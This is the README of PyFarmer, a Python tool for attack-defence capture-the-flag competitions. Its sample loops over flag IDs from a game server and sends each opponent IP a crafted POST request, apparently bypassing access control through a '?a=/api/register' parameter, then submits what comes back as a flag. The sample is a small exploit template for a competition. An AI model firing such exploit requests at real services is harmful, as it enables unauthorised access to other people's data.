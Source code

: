 # PyFarmer

## Introduction

> A farmer for your CTF farm

## Code Samples

> ```python
> import requests
> from pyfarmer import farm, submit_flag, get_ids, print_exception
> 
> 
> def main(ip: str) -> None:
>     for flag_id in get_ids("http://10.10.0.1:8081/flagIds", "Trademark"):
>         try:
>             r = requests.post(
>                 f"http://{ip}:5000/api/products/{flag_id}/download?a=/api/register"
>             )
>             submit_flag(r.text)
>         except:
>             print_exception()
> 
> 
> if __name__ == "__main__":
>     farm(main, __file__)
> ```
>

## Installation

> Install locally with:
>
> ```bash
> pip install git+ssh://git@github.com/rikyiso01/pyfarmer.git@latest
> ```
>